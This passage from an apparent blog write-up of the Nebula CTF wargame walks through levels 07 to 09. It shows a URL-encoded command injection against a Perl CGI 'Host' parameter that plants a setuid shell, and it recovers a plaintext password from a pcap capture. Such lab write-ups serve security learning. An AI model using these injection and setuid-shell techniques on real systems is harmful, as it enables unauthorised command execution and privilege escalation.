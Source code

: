 The perl source code has a command injection vulnerability. We can inject arbitrary commands into the `Host` parameter. 
I chose to reuse the setuid shell from previous levels (/tmp/shell).

The url encoded exploit:
`http://192.168.56.101:7007/index.cgi?Host=localhost|cp%20/tmp/shell%20~%20%26%26%20chmod%204755%20~/shell`

Which executes:
`cp /tmp/shell ~ && chmod 4755 ~/shell`

After that we can grab the flag:
{{< codecaption lang="sh" title="Flag07" >}}
level07@nebula:/home/flag07$ ls -l
total 13
-rwxr-xr-x 1 root   root    368 2011-11-20 21:22 index.cgi
-rwsr-xr-x 1 flag07 flag07 7322 2016-04-30 06:41 shell
-rw-r--r-- 1 root   root   3719 2011-11-20 21:22 thttpd.conf
level07@nebula:/home/flag07$ ./shell
flag07@nebula:/home/flag07$ getflag 
You have successfully executed getflag on a target account
flag07@nebula:/home/flag07$ 
{{< /codecaption >}}

### Level08
Description:

> World readable files strike again. Check what that user was up to, and use it to log into flag08 account.

This level has a world readable capture.pcap file in flag08's home folder. After SCPing it out and viewing it in wireshark, 
we can extract the plaintext password:

![wireshark](/images/2016/05/01/wireshark.png)

The password seen in the screenshot is `backdoor...00Rm8.ate`, hoewever, the dots here are actually `0x7F` characters (which is Backspace), 
so the correct password is `backd00Rmate`
With this password we can get the flag:
 
{{< codecaption lang="sh" title="Flag08" >}}
level08@nebula:/home/flag08$ su flag08 -
Password: 
sh-4.2$ getflag 
You have successfully executed getflag on a target account
sh-4.2$ 
{{< /codecaption >}}

### Level09
Description:

> There’s a C setuid wrapper for some vulnerable PHP code…
